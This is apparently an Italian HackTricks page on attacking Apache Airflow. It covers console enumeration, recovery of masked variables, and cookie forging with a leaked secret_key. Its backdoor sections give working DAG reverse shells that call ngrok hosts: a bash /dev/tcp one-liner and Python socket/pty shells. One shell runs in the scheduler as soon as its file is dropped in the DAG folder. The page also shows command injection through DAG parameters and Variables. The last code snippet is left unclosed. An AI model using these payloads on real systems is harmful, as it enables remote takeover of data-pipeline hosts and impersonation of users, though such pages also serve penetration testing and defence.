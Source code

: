 # Sicurezza di Apache Airflow

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguimi** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informazioni di Base

[**Apache Airflow**](https://airflow.apache.org) funge da piattaforma per **orchestrare e pianificare i data pipeline o i flussi di lavoro**. Il termine "orchestrazione" nel contesto dei data pipeline significa il processo di organizzare, coordinare e gestire flussi di lavoro dati complessi provenienti da varie fonti. Lo scopo principale di questi data pipeline orchestrati è fornire set di dati elaborati e consumabili. Questi set di dati sono ampiamente utilizzati da una miriade di applicazioni, tra cui ma non limitate a strumenti di business intelligence, modelli di data science e machine learning, tutti fondamentali per il funzionamento delle applicazioni big data.

In sostanza, Apache Airflow ti permetterà di **programmare l'esecuzione del codice quando accade qualcosa** (evento, cron).

## Laboratorio Locale

### Docker-Compose

Puoi utilizzare il **file di configurazione docker-compose da** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) per avviare un ambiente docker completo di Apache Airflow. (Se sei su MacOS assicurati di dare almeno 6GB di RAM alla VM di Docker).

### Minikube

Un modo semplice per **eseguire Apache Airflow** è farlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configurazione di Airflow

Airflow potrebbe memorizzare **informazioni sensibili** nella sua configurazione o potresti trovare configurazioni deboli in atto:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC di Airflow

Prima di iniziare ad attaccare Airflow, dovresti capire **come funzionano le autorizzazioni**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Attacchi

### Enumerazione della Console Web

Se hai **accesso alla console web**, potresti essere in grado di accedere a alcune o a tutte le seguenti informazioni:

* **Variabili** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* **Connessioni** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* Accedile in `http://<airflow>/connection/list/`
* [**Configurazione**](./#airflow-configuration) (Informazioni sensibili come la **`secret_key`** e le password potrebbero essere memorizzate qui)
* Elenca **utenti e ruoli**
* **Codice di ciascun DAG** (che potrebbe contenere informazioni interessanti)

### Recupero dei Valori delle Variabili

Le variabili possono essere memorizzate in Airflow in modo che i **DAG** possano **accedere** ai loro valori. È simile ai segreti di altre piattaforme. Se hai **autorizzazioni sufficienti**, puoi accedervi nell'interfaccia grafica in `http://<airflow>/variable/list/`.\
Di default, Airflow mostrerà il valore della variabile nell'interfaccia grafica, tuttavia, secondo [**questo**](https://marclamberti.com/blog/variables-with-apache-airflow/) è possibile impostare un **elenco di variabili** il cui **valore** apparirà come **asterischi** nell'**interfaccia grafica**.

![](<../../.gitbook/assets/image (164).png>)

Tuttavia, questi **valori** possono ancora essere **recuperati** tramite **CLI** (è necessario avere accesso al DB), esecuzione di **DAG arbitrari**, **API** che accedono il punto finale delle variabili (l'API deve essere attivata) e **anche l'interfaccia grafica stessa!**\
Per accedere a quei valori dall'interfaccia grafica, basta **selezionare le variabili** a cui si desidera accedere e **fare clic su Azioni -> Esporta**.\
Un altro modo è eseguire un **bruteforce** al **valore nascosto** utilizzando il **filtro di ricerca** finché non lo si ottiene:

![](<../../.gitbook/assets/image (152).png>)

### Escalation dei Privilegi

Se la configurazione **`expose_config`** è impostata su **True**, dal **ruolo Utente** e **in su** possono **leggere** la **configurazione nel web**. In questa configurazione, compare la **`secret_key`**, il che significa che qualsiasi utente con questa chiave valida può **creare il proprio cookie firmato per impersonare qualsiasi altro account utente**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Backdoor del DAG (RCE nel worker di Airflow)

Se hai **accesso in scrittura** al luogo dove sono **salvati i DAG**, puoi semplicemente **creare uno** che ti invierà una **shell inversa**.\
Nota che questa shell inversa verrà eseguita all'interno di un **container worker di Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Backdoor del DAG (RCE nel pianificatore di Airflow)

Se si imposta qualcosa da **eseguire nella radice del codice**, al momento della stesura di questo testo, verrà **eseguito dal pianificatore** dopo un paio di secondi dopo averlo inserito nella cartella del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Creazione DAG

Se riesci a **compromettere una macchina all'interno del cluster DAG**, puoi creare nuovi **script DAG** nella cartella `dags/` e verranno **replicati nel resto delle macchine** all'interno del cluster DAG.

### Iniezione Codice DAG

Quando esegui un DAG dall'interfaccia grafica, puoi **passargli argomenti**.\
Pertanto, se il DAG non è codificato correttamente, potrebbe essere **vulnerabile all'Injection di Comandi.**\
Questo è ciò che è successo in questo CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tutto ciò che devi sapere per **iniziare a cercare iniezioni di comandi nei DAG** è che i **parametri** sono **acceduti** con il codice **`dag_run.conf.get("nome_parametro")`**.

Inoltre, la stessa vulnerabilità potrebbe verificarsi con le **variabili** (nota che con sufficienti privilegi potresti **controllare il valore delle variabili** nell'interfaccia grafica). Le variabili sono **accedute con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se vengono utilizzati ad esempio all'interno di un comando bash, potresti eseguire un'iniezione di comandi.

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguimi** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
